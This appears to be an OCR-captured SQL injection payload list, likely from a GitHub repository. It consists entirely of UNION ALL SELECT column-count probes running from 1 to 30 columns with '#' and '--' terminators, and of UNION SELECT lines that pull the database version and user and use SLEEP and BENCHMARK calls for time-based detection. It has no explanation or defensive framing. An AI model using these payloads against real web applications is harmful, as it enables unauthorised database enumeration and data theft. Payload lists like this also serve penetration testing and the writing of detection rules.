 ```
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT 1-- 
 UNION ALL SELECT 1,2-- 
 UNION ALL SELECT 1,2,3-- 
 UNION ALL SELECT 1,2,3,4-- 
 UNION ALL SELECT 1,2,3,4,5-- 
 UNION ALL SELECT 1,2,3,4,5,6-- 
 UNION ALL SELECT 1,2,3,4,5,6,7-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
```